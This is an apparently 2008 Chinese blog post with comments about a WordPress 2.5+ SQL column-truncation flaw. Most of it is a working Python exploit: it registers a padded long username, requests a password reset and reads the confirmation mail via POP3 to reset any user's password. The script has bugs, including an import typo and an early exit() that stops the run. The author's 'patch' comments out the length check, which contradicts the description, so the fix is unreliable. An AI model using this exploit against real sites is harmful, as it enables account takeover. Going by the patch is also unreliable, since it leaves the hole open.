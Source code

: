 title: wordpress漏洞利用-更改任意用户的密码
tags:
  - exploit
  - Python
  - wordpress
id: 311
categories:
  - 编程相关
date: 2008-09-09 17:06:27
---

最近wordpress又出现了一个漏洞，详细描述见这里:[http://milw0rm.com/exploits/6397](http://milw0rm.com/exploits/6397)，关于漏洞的形成原因这里:[http://www.suspekt.org/2008/08/18/mysql-and-sql-column-truncation-vulnerabilities/](http://www.suspekt.org/2008/08/18/mysql-and-sql-column-truncation-vulnerabilities/)有很好的描述，主要原因是由于wordpress对用户名的检查不足，使得过长的用户名可以注册，从而产生这个问题。

贴一下我写的利用工具，针对2.5及以上版本，可以更改（这里用重置更恰当）任意用户的密码，当然前提是这个wordpress开放了注册：
```
#!/usr/bin/env python
#coding=utf-8
#author: cocobear.cn@gmail.com
#website:http://cocobear.github.io

""" exploit description:
        http://milw0rm.com/exploits/6397
    influencing:
        wordpress 2.5 and above
    This short code can change any user's password.
"""

import urllib,cookelib,urllib2,httplib
import sys
import poplib

#all you need to do is change this two lines:
base_url = "http://cocobear.github.io/"
hack_user= "cocobear"

def init():
    cookie = cookielib.CookieJar()
    opener = urllib2.build_opener(urllib2.HTTPCookieProcessor(cookie))

    exheaders = [("User-Agent","Opera/9.27 (X11; Linux x86_64; U; en)"),("Connection","Keep-Alive"),("Referer","http://zzfw.sn.chinamobile.com"),("Accept","text/html, application/xml;q=0.9, application/xhtml+xml, image/png, image/jpeg, image/gif, image/x-xbitmap, */*;q=0.1"),("Accept-Charset","iso-8859-1, utf-8, utf-16, *;q=0.1"),("Cookie2","$Version=1"),]

    opener.addheaders = exheaders
    urllib2.install_opener(opener)
    return opener

def register(opener):
    global base_url,hack_user,hack_mail

    #register a hack user
    num = 60 - len(hack_user)
    hack_user = hack_user + " "*num + "x"
    body = (("user_login",hack_user),("user_email",hack_mail),)
    ret  = opener.open(base_url+"action=register",urllib.urlencode(body))
    print ret.read()
    exit()

def change_passwd(opener):
    global base_url,hack_mail,hack_pass

    body = (("user_login",hack_mail),)
    print body
    ret  = opener.open(base_url+"action=lostpassword",urllib.urlencode(body))

    print ret.read()

    #get confirm mail
    pop = poplib.POP3('pop.sina.com')
    pop.user(hack_mail)
    pop.pass_(hack_pass)
    count = pop.stat()[0]
    try:
        data = pop.retr(count)[1]
    except poplib.error_proto:
        print 'get mail error'
        return -1

    for l in data:
        if l.startswith(base_url):
            confirm_url = l
            print "Successful!"

    #visit confirm mail
    ret = opener.open(confirm_url)
    #print ret.read()

def main(argv=None):
    opener=init()
    register(opener)
    change_passwd(opener)

hack_mail= "wordpress_sql@sina.com"
hack_pass= "1234566"

base_url+= "wp-login.php?"

if __name__ == "__main__":
    sys.exit(main())
```

大家不用试我的博客了，我自己打补丁了：
```
function validate_username( $username ) {
       /* if (strlen($username) > 60) {
                return False;
        }
       */
        $sanitized = sanitize_user( $username, true );
        $valid = ( $sanitized == $username );
        return apply_filters( 'validate_username', $valid, $username );
}
```
修改wp-includes/registration.php文件中的validate_username函数，注释部分是我添加的。
## Comments

**[orz](#4182 "2008-09-09 21:35:19"):** 你好，请问这段代码如何编译呢～

**[nihuo13](#4183 "2008-09-09 23:32:50"):** cookelib应该是cookielib吧?

**[luguo](#4180 "2008-09-09 17:30:47"):** Orz

**[Amankwah](#4185 "2008-09-10 07:13:47"):** 为什么要开放注册呢？

**[草儿](#4323 "2008-09-17 15:08:39"):** 我只是在前几天看到这篇新闻后把注册关闭了，你倒是够狠，直接把程序都写出来了…… 这几天干嘛呢，一直不见你？

**[crazyfranc](#4247 "2008-09-16 21:21:00"):** 不开放就没那么多事了!

